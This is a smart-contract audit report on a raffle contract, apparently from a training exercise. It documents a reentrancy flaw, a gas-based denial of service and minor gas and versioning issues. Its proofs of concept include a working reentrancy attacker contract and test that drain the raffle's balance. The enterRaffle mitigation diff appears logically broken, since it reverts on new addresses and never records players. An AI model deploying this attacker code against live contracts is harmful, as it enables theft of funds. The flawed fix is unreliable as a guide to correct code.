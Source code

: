 ### [H-1] Reentrancy attack in `PuppyRaffle::refund` function allown entrant to drain raffle balance

**Description:**\
The `PuppyRaffle::refund` function does not follow CEI (Checks, Effects, Interactions) and as a result, enables participants to drain the contract balance. This occurs because the `PuppyRaffle::refund` function make a external call to msg.sender before update the `PuppyRaffle::players` array.

```javascript
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

@>      payable(msg.sender).sendValue(entranceFee);
@>      players[playerIndex] = address(0);
        
        emit RaffleRefunded(playerAddress);
    }
```
A player who has entered the raffle behind an another contract with a `fallback`/`receive` function in it, could call the `PuppyRaffle::refund` again and claim another refund. They could continue this cycle till the raffle contract balance is drained.

**Impact:**\
All fees paid by raffle entrants could be stolen by the malicious participant. 

**Proof of Concept:**

1. User enters the raffle
2. Attacker set up a contract with a `fallback` function that call `PuppyRaffle::refund`
3. Attacker enter the raffle from their attack contract setted contract
4. Attacker calls `PuppyRaffle::refund` from their attack contract

**Proof of Code:**
<details><summary>PoC</summary>


Paste the following into the ```PuppyRaffleTest.t.sol```

```javascript
function test_Audit_Reentrancy_Refund() public {
    address[] memory players = new address[](4);
    players[0] = playerOne;
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);

    ReentrancyAttacker reentrancyAttacker = new ReentrancyAttacker(puppyRaffle);
    address attacker = makeAddr("attacker");
    vm.deal(attacker, 1 ether);

    uint256 startingAttackerContractBalance = address(attacker).balance;
    uint256 startingRaffleContractBalance = address(puppyRaffle).balance;

    console.log("Attacker contract start: ", startingAttackerContractBalance);
    console.log("Raffle contract start: ", startingRaffleContractBalance);

    vm.prank(attacker);
    reentrancyAttacker.attack{value: entranceFee}();

    uint256 endingAttackerContractBalance = address(reentrancyAttacker).balance;
    uint256 endingRaffleContractBalance = address(puppyRaffle).balance;

    assertEq(endingAttackerContractBalance, startingAttackerContractBalance + startingRaffleContractBalance);
    assertEq(endingRaffleContractBalance, 0);

    console.log("Attacker contract end: ", endingAttackerContractBalance);
    console.log("Raffle contract end: ", endingRaffleContractBalance);
}

```
An the attacker contract too:

```javascript
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = _puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);

        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable {
        _stealMoney();
    }

    receive() external payable {
        _stealMoney();
    }
}
```
</details>

**Recommended Mitigation:**\
To prevent this, on the `PuppyRaffle::refund` function, update the `players` array before making the external call. Additionally, we should move the event emission up as well.

```diff
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+       players[playerIndex] = address(0);
+       emit RaffleRefunded(playerAddress);

        payable(msg.sender).sendValue(entranceFee);
-       players[playerIndex] = address(0);

-       emit RaffleRefunded(playerAddress);
    }
```


### [H-2] The For Loop on `Puppyraffle::enterRaffle` function is a potential denial of service (DoS) attack.

**Description:**\
The for loop inside the `Puppyraffle::enterRaffle` function runs through an increasing array of players searching for duplicate ones, opening the possibility that an attacker could pass player addresses multiple times, making the later calls more gas expensive than the earlier ones.  

```javascript
@>  for (uint256 i = 0; i < players.length - 1; i++) {
        for (uint256 j = i + 1; j < players.length; j++) {
            require(
                players[i] != players[j],
                "PuppyRaffle: Duplicate player"
            );
        }
    }
```

**Impact:**\
After the attack, the new costs of entering the raffle would discourage new real users.

**Proof of Concept:**\
If we have two sets of 100 players enter, the gas used will be as such:
- 1st 100 players: ~6503269 gas
- 2nd 100 players: ~18995097 gas

The second set is ~3x more expensive than the first.

<details>
<summary>PoC</summary>

Place the following test into `test/PuppyRaffleTest.t.sol`.

```javascript
function testDoSEnterRaffle() public {
    uint256 startGas;
    uint256 gasUsedFirst;
    uint256 gasUsedSecond;
    uint256 numOfPlayers = 100;
    address[] memory players = new address[](numOfPlayers);

    for (uint256 i = 0; i < numOfPlayers; i++) {
        players[i] = address(uint160(i));
    }
    startGas = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * numOfPlayers}(players);
    gasUsedFirst = startGas - gasleft();

    for (uint256 i = 0; i < numOfPlayers; i++) {
        players[i] = address(uint160(i + numOfPlayers));
    }
    startGas = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * numOfPlayers}(players);
    gasUsedSecond = startGas - gasleft();
    console.log("Gas used on first enterRaffle() call: ", gasUsedFirst);
    console.log("Gas used on second enterRaffle() call: ", gasUsedSecond);
    assert(gasUsedFirst < gasUsedSecond);
}
```
</details>

**Recommended Mitigation:**
1. Consider allow duplicate addresses, because users can make new wallet addresses anyways, so duplicate check doesn't prevent the same person from entering multiple times.
2. Refactory the function code using a mapping instead of an array for check duplicates addresses.

<details>
<summary>Code example</summary>

```diff
-   address[] public players;
+   mapping(address => bool) public players;
+   error Puppyraffle__NotDuplicateAddressAllowed(address duplicateAddress);

    function enterRaffle(address[] memory newPlayers) public payable {
        require(
            msg.value == entranceFee * newPlayers.length,
            "PuppyRaffle: Must send enough to enter raffle"
        );
+       // Revert with the custom error if a duplicate address is found
        for (uint256 i = 0; i < newPlayers.length; i++) {
-           players.push(newPlayers[i]);
+           if (!players[newPlayers[i]]) {
+               revert Puppyraffle__NotDuplicateAddressAllowed(newPlayers[i]);
+           }
+           players[newPlayers[i]];
        }

-       // Check for duplicates
-       // audit DoS
-       for (uint256 i = 0; i < players.length - 1; i++) {
-           for (uint256 j = i + 1; j < players.length; j++) {
-               require(
-                   players[i] != players[j],
-                   "PuppyRaffle: Duplicate player"
-               );
-           }
-       }
        emit RaffleEnter(newPlayers);
    }
```
</details>

## Gas

### [G-1] Unchanged state variables should be declared constant or immutable.

**Description:**\
Reading from storage is more gas expensive than reading from a constant or inmmutable variable.

**Instances:**
- `PuppyRaffle::reffleDuration` should be `immutable`
- `PuppyRaffle::reffleStartTime` should be `immutable`
- `PuppyRaffle::commonImageUri` should be `constant`
- `PuppyRaffle::rareImageUri` should be `constant`
- `PuppyRaffle::legendaryImageUri` should be `constant`


### [G-2] Storage Array Length not Cached

Calling `.length` on a storage array in a loop condition is expensive. Consider caching the length in a local variable in memory before the loop and reusing it.

<details><summary>4 Found Instances</summary>


- Found in src/PuppyRaffle.sol [Line: 88](src/PuppyRaffle.sol#L88)

    ```solidity
            for (uint256 i = 0; i < players.length - 1; i++) {
    ```

- Found in src/PuppyRaffle.sol [Line: 89](src/PuppyRaffle.sol#L89)

    ```solidity
                for (uint256 j = i + 1; j < players.length; j++) {
    ```

- Found in src/PuppyRaffle.sol [Line: 115](src/PuppyRaffle.sol#L115)

    ```solidity
            for (uint256 i = 0; i < players.length; i++) {
    ```

- Found in src/PuppyRaffle.sol [Line: 186](src/PuppyRaffle.sol#L186)

    ```solidity
            for (uint256 i = 0; i < players.length; i++) {
    ```

</details>


**Recommended Mitigation:**
<details><summary>Code example</summary>

```diff
+   uint256 playersLength = players.length;
-   for (uint256 i = 0; i < players.length - 1; i++) {
+   for (uint256 i = 0; i < playersLength - 1; i++) {
-                for (uint256 j = i + 1; j < players.length; j++) {
+                for (uint256 j = i + 1; j < playersLength; j++) {
                    require(players[i] != players[j], "PuppyRaffle: Duplicate player");
                }
            }
```
</details>

## Informational

### [I-1] Unspecific Solidity Pragma

Consider using a specific version of Solidity in your contracts instead of a wide version. For example, instead of `pragma solidity ^0.8.0;`, use `pragma solidity 0.8.0;`

<details><summary>1 Found Instances</summary>


- Found in src/PuppyRaffle.sol [Line: 2](src/PuppyRaffle.sol#L2)

    ```solidity
    pragma solidity ^0.7.6;
    ```

</details>

### [I-2] Using an outdated version of Solidity is not recommended.

**Description:**\
solc frequently releases new compiler versions. Using an old version prevents access to new Solidity security checks. We also recommend avoiding complex pragma statement.

**Recommended Mitigation:**\
Deploy with a recent version of Solidity (at least 0.8.0) with no known severe issues.
Use a simple pragma version that allows any of these versions. Consider using the latest version of Solidity for testing.

### [I-3] Address State Variable Set Without Checks

Check for `address(0)` when assigning values to address state variables.

<details><summary>2 Found Instances</summary>


- Found in src/PuppyRaffle.sol [Line: 62](src/PuppyRaffle.sol#L62)

    ```solidity
            feeAddress = _feeAddress;
    ```

- Found in src/PuppyRaffle.sol [Line: 179](src/PuppyRaffle.sol#L179)

    ```solidity
            feeAddress = newFeeAddress;
    ```

</details>
